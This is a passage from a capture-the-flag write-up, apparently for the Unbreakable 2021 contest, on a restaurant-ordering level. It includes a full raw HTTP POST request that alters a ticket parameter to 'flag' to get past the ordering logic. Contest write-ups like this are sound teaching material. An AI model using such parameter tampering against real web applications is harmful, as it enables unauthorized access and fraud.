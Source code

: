 However, we cannot directly order any dish - we first need to get a ticket and then get our order using the ticket:

<div>
<center><img src="/images/unbreakable-2021-individual-writeup/the-restaurant-4.png"></center>
</div>

To win this level, we just need to order something, get a valid ticket and modify the ticket to say 'flag' instead of the dish we ordered:

{% highlight bash %}
POST /level2.php HTTP/1.1
Host: 34.107.86.157:32311
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: http://34.107.86.157:32311
Connection: close
Referer: http://34.107.86.157:32311/level2.php
Upgrade-Insecure-Requests: 1

order=ticket%3Aflag
{% endhighlight %}
